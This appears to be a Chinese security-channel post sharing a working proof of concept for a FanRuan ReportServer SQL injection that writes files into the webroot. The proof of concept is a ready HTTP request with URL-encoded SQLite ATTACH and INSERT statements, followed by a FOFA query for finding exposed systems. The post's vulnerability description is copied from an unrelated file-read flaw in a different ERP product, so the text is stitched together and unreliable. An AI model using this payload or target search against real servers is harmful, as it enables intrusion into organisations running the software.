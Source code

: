 #  帆软报表ReportServer接口 SQL注入漏洞导致RCE   
小白菜安全  小白菜安全   2024-07-28 23:23  
  
**免责声明**  
  
该公众号主要是分享互联网上公开的一些漏洞poc和工具，  
利用本公众号所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本公众号及作者不为此承担任何责任，一旦造成后果请自行承担！如果本公众号分享导致的侵权行为请告知，我们会立即删除并道歉。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/NhLcT1kxlia1Au88bO1jFd8V3AmqMvsqEZUFalBicQwJaic1tesic3duRuGPPQ3E1vczEJ67UzoMicSWMZpKwRElxtA/640?wx_fmt=png "")  
  
**漏洞影响范围**  
  
无  
#  漏洞描述  
  
天问物业ERP应用系统，旨在向物管公司提供降低成本、保障品质、提升效能为目标的智慧物管整体解决方案，实现物管公司的管理升级。天问物业  
ERP系统  
VacantDiscountDownLoad存在任意文件读取漏洞，未经身份验证的攻击者可以利用此漏洞读取系统内部配置文件，造成信息泄露。  
#  漏洞复现  
  
**poc**  
```
SQLite：
ATTACH DATABASE '../webapps/webroot/123.txt' as test;
CREATE TABLE test.exp(data text);
INSERT INTO test.exp(data) VALUES ('456789');

GET /webroot/decision/view/ReportServer?test=&n=${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BF%41%54%54%41%43%48%20%44%41%54%41%42%41%53%45%20%27%2e%2e%2f%77%65%62%61%70%70%73%2f%77%65%62%72%6f%6f%74%2f%31%32%33%2e%74%78%74%27%20%61%73%20%74%65%73%74%3b'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BF%43%52%45%41%54%45%20%54%41%42%4c%45%20%74%65%73%74%2e%65%78%70%28%64%61%74%61%20%74%65%78%74%29%3b'),1,1)}${__fr_locale__=sql('FRDemo',DECODE('%EF%BB%BF%49%4e%53%45%52%54%20%49%4e%54%4f%20%74%65%73%74%2e%65%78%70%28%64%61%74%61%29%20%56%41%4c%55%45%53%20%28%27%34%35%36%37%38%39%27%29%3b'),1,1)} HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

url+/webroot/123.txt
```  
  
批量扫描工具：  
  
没有，懒的写了，等护网结束在写个综合的吧。。。。。。。。。  
  
  
#   
# 搜索语法  
  
**fofa:**  
app  
=  
"帆软-数据决策系统"  
  
  
****  
